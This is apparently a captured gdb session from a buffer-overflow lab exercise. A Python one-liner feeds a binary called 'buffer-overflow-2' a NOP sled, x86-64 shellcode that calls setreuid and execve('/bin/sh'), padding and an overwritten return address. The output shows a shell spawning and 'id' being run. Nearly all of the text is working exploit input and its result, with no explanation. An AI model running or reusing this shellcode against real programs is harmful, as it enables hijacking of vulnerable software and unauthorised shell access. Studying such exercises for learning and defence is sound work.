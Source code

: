 :::

```sh
(gdb) run $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBB
process 3400 is executing new program: /usr/bin/bash
sh-4.2$ id
Detaching after fork from child process 3406.
uid=1001(user1) gid=1001(user1) groups=1001(user1)
sh-4.2$
```
